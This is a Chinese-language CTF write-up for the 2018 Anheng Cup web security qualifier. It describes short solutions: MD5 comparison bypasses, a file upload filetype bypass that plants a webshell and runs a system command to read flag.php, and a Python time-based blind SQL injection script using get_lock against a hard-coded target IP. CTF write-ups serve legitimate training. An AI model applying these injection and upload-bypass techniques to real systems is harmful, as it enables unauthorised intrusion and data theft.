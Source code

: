 ## 2018安恒杯WEB安全测试秋季预选赛

### 第一题

忘记是啥题了，略

### easy_MD5

数组绕过

### MD5

参考这篇[文章](https://blog.csdn.net/qq_19980431/article/details/83018232)，传入两个编码文件

### 注入

`sqlmap`跑一下就出来了

### 传个flag

送分题，略

### 贪吃蛇

查看源码，有个JS颜表情，运行后出了个假flag，读了游戏源码，发现没有判断，没有请求，猜想一定和颜表情有关，于是查看DOM发现颜表情编码除了`console.log`了假flag还给DOM属性赋值了真flag

### 小站

结束才做出来，还是经验太少，比赛时发现有`XSS`但没啥用，而且一开始就想当然把文件上传pass了。首先查看`robots.txt`，发现`flag.php`，但`echo`的是假flag，后查看`/controller/Cotroller.php`，查看备份`Cotroller.php~`，发现文件上传判断逻辑仅仅是post的`filetype`，`image/jpeg`绕过后连接`webshell`，菜刀无法连接，直接`post`命令执行`system("cat /var/www/html/flag.php")`，查看源码，得到flag

### sleepCMS

基于时间盲注，过滤了`preg_match("/(sleep|benchmark|outfile|dumpfile|load_file|join|select)/i", $_GET['id'])`，搜索新式时间盲注，使用`get_lock`函数，但`select`被过滤暂时没有找到绕过方法。运行前先用浏览器加锁，后运行脚本注入

```python
import requests

ac = "database()"  # locksql
# ac = "select table_name from information_schema.tables where table_schema='locksql'"
result = ""
# requests.get("http://114.55.36.69:8007/article.php?id=2' and get_lock('111',5)--+")
for i in range(1, 21):
	for j in range(32, 127):
		try:
			url = "http://114.55.36.69:8007/article.php?id=2' and if(mid(({}),{},1)='{}',get_lock('ac',5),1)--+".format(ac, i, chr(j))
			r = requests.get(url, timeout=5)
		except:
			result += chr(j)
			break
	print(result)

```
